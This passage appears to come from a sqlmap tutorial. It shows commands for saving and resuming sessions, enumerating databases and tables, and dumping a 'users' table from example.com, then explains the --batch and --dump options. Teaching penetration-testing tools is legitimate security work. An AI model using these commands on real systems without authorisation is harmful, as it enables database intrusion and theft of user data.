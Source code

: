 ```plaintext
sqlmap -u "<http://www.example.com/>" --save=session.sqlite

```

Use the `--resume` option to resume a saved session:

```plaintext
sqlmap -u "<http://www.example.com/>" --resume=session.sqlite

```

## 5\. Database Enumeration with SQLMap

### 5.1 Listing Databases

Use the `--dbs` option to list available databases:

```plaintext
sqlmap -u "<http://www.example.com/?id=1>" --dbs

```

### 5.2 Enumerating Tables

Use the `-D` option to specify the database and the `--tables` option to list tables:

```plaintext
sqlmap -u "<http://www.example.com/?id=1>" -D testdb --tables

```

### 5.3 Dumping Table Data

Use the `-D`, `-T`, and `--dump` options to dump table data:

```plaintext
sqlmap -u "<http://www.example.com/?id=1>" -D testdb -T users --dump

```

The `--batch` and `--dump` options in SQLMap are used to automate the SQL injection process and retrieve data from the database.

1. `-batch` option:
    
    * The `-batch` option is used to run SQLMap in non-interactive mode, where it automatically selects the default options without prompting the user for input.
        
    * This option is useful when you want to automate the SQL injection process or run SQLMap in scripts or continuous integration/continuous deployment (CI/CD) pipelines.
        
    * When `-batch` is used, SQLMap will automatically choose the default values for any prompts that may appear during the SQL injection process.
        
2. `-dump` option:
    
    * The `-dump` option is used to retrieve and dump the content of the specified table(s) from the database.
        